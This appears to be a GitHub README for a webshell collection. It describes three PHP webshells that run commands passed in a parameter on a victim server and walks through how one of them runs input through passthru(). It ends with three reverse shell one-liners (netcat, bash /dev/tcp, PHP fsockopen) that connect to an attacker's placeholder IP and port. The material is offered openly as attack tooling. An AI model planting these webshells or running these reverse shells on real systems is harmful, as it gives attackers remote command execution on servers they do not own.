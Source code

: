 <h3 align='center'><b> shell_with_curl.php </b></h3> 
 <p>A simple webshell check by curl command to that file in victim url directory
<h3 align='center'><b> shell_with_param.php </b></h3> 
 <p>A simple webshell works by taking a parameter and executing it as a system command.
<h3 align='center'><b> webshell.php </b></h3>
 <p> In pseudocode, the above snippet is doing the following:
  <ol>
    <li> Checking if the parameter "commandString" is set
    <li> If it is, then the variable $command_string gets what was passed into the input field
    <li> The program then goes into a try block to execute the function passthru($command_string).  The docs on passthru() on <a href='https://www.php.net/manual/en/function.passthru.php'> PHP's website </a>, but in general, it is executing what gets entered into the input then passing the output directly back to the browser.
    <li>If the try does not succeed, output the error to page.  Generally this won't output anything because you can't output stderr but PHP doesn't let you have a try without a catch.

<h3 align='center'><b> Reverse shell command </b></h3> 
   <pre><code>nc -e /bin/bash &lt;ATTACKER_IP> &lt;ATTACKER_PORT></code></pre>
   <pre><code>bash -i >& /dev/tcp/&lt;ATTACKER_IP>/&lt;ATTACKER_PORT> 0>&1</code></pre>
   <pre><code>php -r '$sock=fsockopen("&lt;ATTACKER_IP>",&lt;ATTACKER_PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'</code></pre>
